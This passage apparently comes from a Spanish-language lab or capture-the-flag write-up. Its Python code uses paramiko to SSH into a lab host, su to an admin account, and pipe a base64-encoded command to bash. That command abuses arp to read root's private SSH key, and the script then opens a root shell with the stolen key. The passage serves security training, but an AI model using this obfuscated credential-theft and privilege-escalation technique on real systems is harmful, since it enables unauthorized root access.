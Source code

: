 ```python
GetID_RSA(User_drew, Pass_drew, "game-adm", Pass_Adm)
```

```python
def GetID_RSA(username,password, username_adm, password_adm):
	client = paramiko.SSHClient()
	client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

	client.connect("10.10.11.110", username=username, password=password)

	stdin, stdout, stderr = client.exec_command(f'su {username_adm} -c "echo \"L3Vzci9zYmluL2FycCAtZiAtdiAnL3Jvb3QvLnNzaC9pZF9yc2EnIDI+JjEgfCBncmVwIC12RSAnYXJwfGZvcm1hdHxob3N0JyB8IHNlZCAncy8+PiAvLycK\" | base64 -d | bash"')
	time.sleep(1)
	stdin.write(f'{password_adm}\n')

	id_rsa = stdout.read().decode('utf-8')

	with open('id_rsa', 'w') as f:
            f.write(id_rsa)
```

Y así con la clave ya obtenida, utilizando la función **GetRoot_Shell** accede como el usuario **root**.
```python
def GetRoot_Shell():
	ssh_command = "ssh -i id_rsa root@10.10.11.110"

	ssh_session = pexpect.spawn(ssh_command, timeout=None)

	ssh_session.interact()
```
